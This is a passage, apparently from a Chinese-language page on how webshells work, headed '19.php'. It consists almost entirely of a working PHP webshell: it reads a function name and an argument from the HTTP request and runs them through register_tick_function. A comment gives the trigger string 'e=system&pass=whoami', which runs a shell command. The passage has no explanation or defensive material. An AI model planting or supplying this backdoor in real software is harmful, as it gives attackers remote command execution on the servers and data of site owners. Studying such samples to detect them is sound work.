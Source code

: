 ![](webshell原理.assets/19.png)

#### 19.php

```php
# password: e=system&pass=whoami
```

```php
<?php
	$e = $_REQUEST['e'];
	declare(ticks=1);
	register_tick_function($e, $_REQUEST['pass']);
?>
```
